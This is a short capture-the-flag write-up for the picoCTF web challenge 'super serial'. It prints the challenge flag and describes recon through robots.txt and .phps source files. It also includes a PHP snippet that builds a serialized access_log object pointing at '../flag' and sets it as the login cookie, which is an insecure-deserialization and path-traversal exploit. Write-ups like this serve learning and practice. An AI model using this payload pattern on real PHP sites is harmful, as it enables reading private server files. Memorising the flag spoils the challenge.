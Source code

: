 CHALLENGE NAME: super serial
CAT: web
POINTS: 130
FLAG: picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}
*I read the write up on this (citation at end)*

Given: the only page is index.php, so check out robots.txt for hints on where the lizard people don't want you to go. You'll find admin.phps, which, to me,
meant nothing since typing it into the url results in "not found."

Next: inspect source. You'll see a file, authentication.php, is reference. If we look at /authentication.phps, we see the source code. At this point, I realize 
that the website is down for some reason so I'll be recreating the steps blindly from here out.

Vuln: Serialize. Basically, php serializes cookie login data, and one of the handles for a failure to assert that the cookie belongs to a guest or admin is to 
print out what the unserialized permissions data is. We can take advantage of this by creating a passing access_log data instead of login data and assigning 
the log_file to "../flag".

Exploit: 
run in a php compiler to get cookie payload 
```
<?php

class access_log
{
  public $log_file = "../flag";
}

print(urlencode(base64_encode(serialize(new access_log()))))
	
?>
```
go into cookie editor and set name to login and data to the encoded php log_file data. 

*I barely understand this, and the write-up servers as a forcing function to solidify some loose understandings of how this works*
https://www.youtube.com/watch?v=Eu3nFVAwAK0
https://ctftime.org/writeup/27016
